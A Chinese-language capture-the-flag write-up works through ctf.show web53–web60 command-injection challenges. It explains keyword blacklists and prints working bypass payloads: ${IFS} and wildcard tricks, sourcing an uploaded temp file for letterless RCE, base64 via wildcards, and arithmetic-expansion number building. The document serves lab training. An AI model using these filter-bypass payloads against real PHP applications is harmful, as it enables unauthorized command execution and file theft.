### web53

开启容器



试了下
`?c=nl${IFS}fla''g.php||`
发现会直接回显，查看原题，发现本题命令执行不同


```php
 echo($c);
 $d = system($c);
 echo "<br>".$d;
```

之前的一般是

```php
system($c);
```

#### 辨析

- 本题命令执行
  - `echo($c);`
    这行代码会直接输出变量 $c 的值。如果 $c 是一个字符串，它会将字符串内容输出到浏览器或控制台。
  - `$d = system($c);`
    这里的 system($c) 函数执行系统命令 $c，并将命令的输出直接发送到浏览器或控制台。同时，system 函数会返回命令的最后一条输出行，并将其赋值给变量 $d。
  - `echo "<br>".$d;`
    这行代码会输出变量 $d 的值，并在前面添加一个 HTML 换行符 `<br>`。变量 $d 包含的是命令 $c 执行后的最后一条输出行。
- `system($c);`传统命令执行
  - system($c);`
    这行代码直接执行系统命令 $c，并将命令的输出直接发送到浏览器或控制台。system 函数会返回命令的最后一条输出行，但这里没有将返回值赋值给变量，因此无法进一步使用这个返回值。

测试一下 `?c=ls`



先输出我们传入的内容，即` ls`的回显；紧接着直接输出 `ls` 执行的结果  
`flag.php index.php readflag；`
`system`  函数返回命令输出的最后一行，执行结果最后一行是 `readflag`，所有 $d 的值是 `readflag`，前面还拼接了一个  `"<br>"`，因此会换行输出。

其实刚开始的 payload 把`||`删掉即可，因为这里没有黑洞路径了
符号`$`也被放出
直接
`?c=nl${IFS}fla''g.php`



### web54

开启容器



感觉是防止在特定字符串中用`\`等符号隐藏

具体过滤

```plaintext
;\|：匹配分号 ; 或者竖线 |。
.*c.*a.*t.*：匹配包含字母 c、a、t 的字符串，且这三个字母可以按任意顺序出现，中间可以有其他字符。
.*f.*l.*a.*g.*：匹配包含字母 f、l、a、g 的字符串，且这四个字母可以按任意顺序出现，中间可以有其他字符。
 ：匹配空格。
[0-9]：匹配任意数字。
\*：匹配星号 *。
.*m.*o.*r.*e.*：匹配包含字母 m、o、r、e 的字符串，且这四个字母可以按任意顺序出现，中间可以有其他字符。
.*w.*g.*e.*t.*：匹配包含字母 w、g、e、t 的字符串，且这四个字母可以按任意顺序出现，中间可以有其他字符。
.*l.*e.*s.*s.*：匹配包含字母 l、e、s 的字符串，且这三个字母可以按任意顺序出现，中间可以有其他字符。
.*h.*e.*a.*d.*：匹配包含字母 h、e、a、d 的字符串，且这四个字母可以按任意顺序出现，中间可以有其他字符。
.*s.*o.*r.*t.*：匹配包含字母 s、o、r、t 的字符串，且这四个字母可以按任意顺序出现，中间可以有其他字符。
.*t.*a.*i.*l.*：匹配包含字母 t、a、i、l 的字符串，且这四个字母可以按任意顺序出现，中间可以有其他字符。
.*s.*e.*d.*：匹配包含字母 s、e、d 的字符串，且这三个字母可以按任意顺序出现，中间可以有其他字符。
.*c.*u.*t.*：匹配包含字母 c、u、t 的字符串，且这三个字母可以按任意顺序出现，中间可以有其他字符。
.*t.*a.*c.*：匹配包含字母 t、a、c 的字符串，且这三个字母可以按任意顺序出现，中间可以有其他字符。
.*a.*w.*k.*：匹配包含字母 a、w、k 的字符串，且这三个字母可以按任意顺序出现，中间可以有其他字符。
.*s.*t.*r.*i.*n.*g.*s.*：匹配包含字母 s、t、r、i、n、g、s 的字符串，且这些字母可以按任意顺序出现，中间可以有其他字符。
.*o.*d.*：匹配包含字母 o、d 的字符串，且这两个字母可以按任意顺序出现，中间可以有其他字符。
.*c.*u.*r.*l.*：匹配包含字母 c、u、r、l 的字符串，且这四个字母可以按任意顺序出现，中间可以有其他字符。
.*n.*l.*：匹配包含字母 n、l 的字符串，且这两个字母可以按任意顺序出现，中间可以有其他字符。
.*s.*c.*p.*：匹配包含字母 s、c、p 的字符串，且这三个字母可以按任意顺序出现，中间可以有其他字符。
.*r.*m.*：匹配包含字母 r、m 的字符串，且这两个字母可以按任意顺序出现，中间可以有其他字符。
\|%|\x09|\x26|>|<：匹配反引号 ``  ``、百分号 %、制表符 \x09、与符号 \x26、大于号 >、小于号 <。
```

`nl` 被过滤

发现可以用

```php
?c=rev${IFS}fla?.php //倒装的flag
?c=uniq${IFS}f???.php
?c=vi${IFS}fla?.php
?c=/bin/?at${IFS}f??????? //官方flag
```







因为  Linux  有很多命令存放在 /bin/ 目录下，可以通过绝对路径来使用，并且支持通配符。

> **Linux 下万物皆文件**

也就是说 cat 命令也可这样用：/bin/?at

我来本地试一下，只能说太细了



### web55

开启容器



与上题目不同 字母被完全过滤

网上学到

> 无字母 rce 里还有一个点：**临时文件上传**

本地上传网页

```html
<!DOCTYPE html>

<html lang="en">
  <head>
       
    <meta charset="UTF-8" />

       
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />

       
    <title>POST数据包POC</title>
  </head>

  <body>
       
    <form
      action="https://e1e0a41d-33ba-4c8d-9940-fba9e31fc46d.challenge.ctf.show/"
      method="post"
      enctype="multipart/form-data"
    >
             
      <!--链接是当前打开的题目链接-->

              <label for="file">文件名：</label>

              <input type="file" name="file" id="file" /><br />

              <input type="submit" name="submit" value="提交" />

         
    </form>
  </body>
</html>
```

上传页面如下


然后构造上传的`exp.txt`

```
#!/bin/sh
ls
```

上传并抓包

发到重发器，添加 payload：

```bash
?c=.%20/???/????????[@-[]
```

成功 RCE

> `.(点)`的用法，就是相当于`source`  可以执行 sh 命令。

接下来直接`cat flag.php`即可




> `%20` 是空格，我们这里使用点执行我们上传的文件，从而去执行内容中的 sh 命令，该文件会传到 /tmp/phpxxxxxx ，过滤了字母我们使用通配符问号代替，主要匹配的特征是文件名结尾的大写字母，大写字母不一定随机出现在最后一位，可能需要多试几次。

第二种做法

除了通过 POST 上传文件，执行文件里面的命令外，那 linux 中那么多 sh 命令，还有没有我们可以使用的呢？答案是肯定的

> /bin/base64 命令

/bin/base64 的主要作用是对数据进行 Base64 编码或解码

> 使用方法：/bin/base64 filename

这个命令会将 filename 文件的内容进行 Base64 编码，并将结果输出

因为不能出现字母，所以

> payload:?c=/???/????64 ????.???

因为这里有 64，所以不会匹配到其他命令

最终得到 base64 加密的 flag.php


### web56

开启容器


`.`同样没过滤

上题第二种 base 无法成功，





### web57

开启容器，提示：

```
flag in 36.php
```



变量可控，只需要把`$c`变为`36.php`即可

数字、字母、'.'都被过滤

我们给出主要解决无字母 rce 的一种方法就是**利用自增运算符**（用二进制理解）

而这里恰好没有把$给过滤掉，其目的也显而易见

> 在 linux 中
>
> $(())=0  
> $((~ $(()) ))=-1

```
$(())
//0

$((~$(())))
//-1

$((~$(())))$((~$(())))
//-1-1

$(($((~$(())))$((~$(())))))
//-2

$((~$(($((~$(())))$((~$(())))))))
//1
```

> 这样一直重复嵌套就可以先得到-37，-37 就是用 37 个`$((~$(())))`串在一起，然后在外面加一层`$(())`就可以
> 再对其取反，加一层$(())就可以得到 36





`$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))`

`?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))`




web55-57 无字母 RCE 题目

### web58

开启容器



很明显有后端过滤



`c=print_r(scandir('./'));`
可以看路径



使用 show_source 或者 highlight_file，构造 payload：

```
c=show_source('flag.php');
c=highlight_file('flag.php');
```





### web59

开启容器
一样的前端



与上题一样

使用 show_source 或者 highlight_file，构造 payload：

```
c=show_source('flag.php');
c=highlight_file('flag.php');
```



### web60

开启容器



使用 show_source 或者 highlight_file，构造 payload：

```
c=show_source('flag.php');
c=highlight_file('flag.php');
```



同样处理
